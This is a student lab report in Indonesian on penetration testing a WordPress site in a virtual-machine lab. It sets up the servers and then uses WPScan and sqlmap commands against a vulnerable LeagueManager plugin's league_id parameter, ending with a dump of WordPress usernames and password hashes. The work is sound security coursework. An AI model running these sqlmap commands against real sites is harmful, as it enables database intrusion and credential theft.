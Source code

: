 #### Anggota:
* I Made Fandy Aditya Wirana    5114100026
* Muhammad Fahmi Abdurrahman    5114100028
* I Gede Putu Nobby Aswi Phala  5114100048

### Pendahuluan

  Laporan ini berisi uji penetrasi Wordpress. OS server yang digunakan yaitu Ubuntu Server 16.04.3 dan OS penyerang yang digunakan yaitu Kali Linux 2017.1. Tools yang digunakan untuk menyerang yaitu WPScan, sqlmap.
  
### Dasar Teori

  * #### Ubuntu Server
    Ubuntu Server Edition mendukung arsitektur Intel x86 dan AMD64. Edisi server menyediakan fitur seperti file/print services, web hosting, email hosting, dll. Ada beberapa perbedaan antara edisi server dan edisi desktop walaupun keduanya menggunakan repositori apt yang sama. Perbedaan utamanya adalah, pada edisi server X window environment tidak diinstall scara standar, walaupun antarmuka grafik dapat diinstall secara manual seperti Ubuntu desktop. CD Ubuntu Server Edition juga memiliki pilihan untuk menginstall Ubuntu Enterprise Cloud.
    
  * #### Kali Linux
    Kali Linux adalah distribusi Linux berbasis Debian yang ditujukan untuk uji penetrasi dan pengecekan keamanan. Kali memiliki ratusan tools yang disematkan untuk menjalankan berbagai task yang berkaitan dengan keamanan, seperti uji penetrasi, forensik digital, dan *Reverse Engineering*. Kali Linux dikembangkan oleh Offensive Security, perusahaan yang berkembang di bidang keamanan informasi.
    
  * #### WPScan
    WPScan adalah tools untuk mendeteksi keamanan dari wordpress dengan metode blackbox. Fitur yang dimiliki antara lain:
    * pencacah username
    * multithreaded password bruteforcing
    * pencari versi plugin WordPress dan
    * pencari kerentanan sistem web wordpress
    
  * #### sqlmap
    sqlmap adalah alat pengujian open source yang mendeteksi dan mengeksploitasi kelemahan dalam SQL injection dan mengambil alih server database. Muncul dengan mesin pendeteksi yang hebat, banyak fitur untuk tester penetrasi akhir dan berbagai switch yang bertahan dari sidik jari database, melebihi pengambilan data dari database, untuk mengakses sistem berkas yang mendasarinya dan menjalankan perintah pada sistem operasi melalui sistem out- koneksi band.
    Mendukung  DBMS MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, HSQLDB dan Informix.

### Instalasi Ubuntu Server + OpenSSH Server

  1. Download file instalasi Ubuntu Server dan mount ke virtual machine
      https://www.ubuntu.com/download/server
      
  2. Pilih "*Install Ubuntu Server*"
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-server.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-server.png)
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-pwd-server.png)
  4. Set Partition Disk Menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-server.png)
  5. Tunggu instalasi selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-server.png)
  6. Lakukan konfigurasi lainnnya
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/config-taskkel-server.png)
  7. Pilih software yang akan diinstall
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-server.png)
  8. Tunggu instalasi software
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-soft-wait-server.png)
  9. Install Bootloader Grub
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-grub-server.png)
  10. Selesai!!!
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/done-server.png)
### Instalasi Kali Linux
  
  1. Download file instalasi Kali Linux dan mount ke virtual machine
      https://www.kali.org/downloads/

  2. Pilih *Graphical Install*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-choose-kali.png)
  3. Set Hostname, Username, dan Password
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-host-kali.png)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-user-kali.png)
  4. Set Partition Disk menjadi *Guided - use entire disk*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-part-kali.png)
  5. Set Disk yang akan dibuat menjadi partisi
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-disk-kali.png)
  6. Set Partition Scheme menjadi *All files in one partition*
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-scheme-kali.png)
  7. Tunggu Instalasi Selesai
     ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%201/Gambar/install-wait-kali.png)
  8. Selesai!!!

### Instalasi LAMP server

  1. Gunakan perintah seperti berikut
     >```sudo tasksel install_lamp-server```
  2. Tunggu file didownload
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/2.PNG)
  3. Set password untuk user root dari mysql
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/3.PNG)
  4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4.PNG)
  5. Selesai!!!
    
### Instalasi Wordpress
  1. Dowload Wordpress dengan perintah seperti berikut
  >```wget http://wordpress.org/latest.zip```
  2. Extract file ke /var/www/html
  >```sudo unzip latest.zip -d /var/www/html```
  3. Ganti kepemilikan dan hak akses dari folder wordpress
  >```sudo chown -R www-data:www-data /var/www/html/wordpress///```
  >```sudo chmod -R 775 /var/www/html/wordpress/```
  4. Berikan Port Forwarding Rules ke Vitual Machine agar dapat diakses dari luar
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/4-wp.PNG)
  5. Berikan rules firewall di ubuntu server, lalu restart firewall
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/5-wp.PNG)
  6. Buka mysql, lalu buat database dengan nama wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/6-wp.PNG)
  7. Buka halaman depan dari Wordpress, lalu akan ada inisialisasi
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/Screenshot%20(49).PNG)
  8. Isi konfigurasi database dengan yang telah dibuat sebelumnya
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/Screenshot%20(50).PNG)
  9. Set konfigurasi website
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LAMP%20dan%20wordpress%20di%20ubuntu/Screenshot%20(51).PNG)
  10. Selesai!!!

### Instalasi Plugin
   1. Masuk ke menu Plugin -> Add New
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(53).PNG)
    2. Klik tombol Upload Plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(54).PNG)
    3. Pilih file plugin, lalu klik Install Now
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(55).PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/Screenshot%20(58).PNG)
    4. Tunggu instalasi selesai
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/Screenshot%20(59).PNG)
    5. Selesai!!!
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20Video%20Player%20wordpress/Screenshot%20(57).PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/Install%20LeagueManager%20di%20wordpress/Screenshot%20(60).PNG)
 
### Uji Penetrasi
   * #### WPScan
    1. Lakukan tes dengan cara berikut
    > ```wpscan --url http://192.168.1.1 --enumerate -u```
    2. Jika berhasil akan menampilkan informasi kelemahan plugin
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2.PNG)
    3. Tambahkan data pada LeagueManager pada panel adming di wordpress
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3.PNG)
   * sqlmap
    1. Lakukan command di bawah terlebih dahulu untuk mengetahui informasi database
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -p league_id --dbs```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/1-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/2-sinj.PNG)
    2. Dapatkan informasi tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -D wordpress --tables```
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/3-sinj.PNG)
    3. Dapatkan informasi kolom pada tabel dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users --columns
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/4-sinj.PNG)
    4. Dapatkan informasi user dan password dengan command dibawah ini
    > ```sqlmap --url="192.168.1.1/wordpress/?season=2017&league_id=1" -T wp_users -C user_login,user_pass --dump
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/5-sinj.PNG)
      ![SS](https://github.com/fandyaditya/PKSJ/blob/master/Tugas%202/Gambar/wpscan%20dan%20sqlmap/6-sinj.PNG)
  
  





### Kesimpulan dan Saran
   Serangan SQL Injection adalah memodifikasi perintah sql dari aplikasi client dengan cara menyisipkan kedalamnya. Dalam hal ini terdapat plugin dari wordpress yang tidak di optimasi querynya, sehingga rentan SQL Injection tersebut. Dengan tools tools tersebut, developer dapat memeriksa keamanan dari plugin dan seisi websitenya, sehingga developer dapat memperbaharui plugin atau mengganti plugin yang tidak aman.
